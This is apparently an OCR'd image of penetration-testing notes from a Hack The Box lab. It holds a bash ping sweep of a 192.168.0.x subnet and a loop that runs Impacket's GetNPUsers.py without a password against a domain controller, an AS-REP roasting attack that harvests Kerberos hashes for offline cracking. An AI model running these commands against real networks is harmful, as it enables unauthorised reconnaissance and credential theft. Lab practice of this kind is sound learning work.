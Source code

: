 **#ping all the 192.168.0.x subnet**  
for i in $(seq 1 10); do (ping -c 1 192.168.0.${i} | grep "bytes from" | awk '{print $4}'&);done; 

**#loops over a file "users" executes.py**  
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}| grep-v Impacket;done 
